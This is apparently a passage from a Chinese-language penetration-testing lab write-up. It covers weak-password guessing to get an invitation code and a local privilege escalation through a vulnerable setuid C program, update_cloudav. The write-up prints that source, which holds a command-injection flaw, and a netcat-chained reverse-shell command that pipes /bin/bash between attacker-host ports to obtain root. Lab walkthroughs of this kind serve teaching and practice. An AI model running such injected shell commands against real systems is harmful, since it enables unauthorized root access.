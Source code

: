 ![20220430_2201.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/d23f92e390aba74a860934c0aa8cd2b5.png)
以这两个信息来构建用户名字典和密码字典来对靶机的用户进行暴力破解

![20220430_2206.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/7aa28341b6fe21101dccd91bb7a4dd6e.png)

<font color="orange" face=Monaco size=4> 但遗憾的是我们并没有通过这种方式获取到靶机上有效用户的账号和密码</font>

> 在渗透测试的过程中我们经常会遇到这种情况，当这种方式失败之后，我们应该换种方式去突破!



就比如在 SQL注入这一步(也就是最开始邀请码那步) 有很多种方式进行突破,既然是网页的输入框那我们就可以进行 <font color="red" face=Monaco size=3> 弱口令的尝试和密码的暴力破解等方式来进行突破 </font> 

我这边就使用了2019 年 Top 100 的弱口令字典进行尝试,发现成功获得邀请码 `password` 通过这种方式也能成功突破这个障碍.

![20220430_2255.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/e868076cb4be3874180f589f24f7a2f1.png)

## 本地提权
> 这时候我们就要去寻找另外的方式来提权.

我们遍历一下目录,退出当前目录到其父目录,发现有一个`update_cloudav` 文件,并且该文件具有 sid 位 其所属组也是root ,这时候就应该敏感起来,审计一下 `update_cloudav.c`

```c
#include <stdio.h>

int main(int argc, char *argv[])
{
char *freshclam="/usr/bin/freshclam";

if (argc < 2){
printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
return 1;
}

char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", freshclam, argv[1]);
setgid(0);
setuid(0);
system(command);
return 0;
}
```
发现这边明显有一个命令执行漏洞,因为它就是传一个参数进去然后和 `freshclam` 这个命令进行拼接,既然是命令,那我们是否可以使用管道等方式执行我们想要执行的代码呢?

我们可以使用上面提到的NC串联的方式来获取root权限的shell
```bash
./update_cloudav "foo | nc 10.0.2.7 5555 | /bin/bash | nc 10.0.2.7 6666"

```

![20220430_2231.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/f8ea08f9714a1012ef42191cd8cf42a7.png)

同样的操作我们只需要在攻击机中使用nc监听对应端口即可

发现我们成功获得root权限的shell
![20220430_2232.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/7cf6c9241d05e13cc1ba8382717be55f.png)

<font color="green" face=Monaco size=4> 至此我们对这台靶机的渗透测试已完成!!!</font>





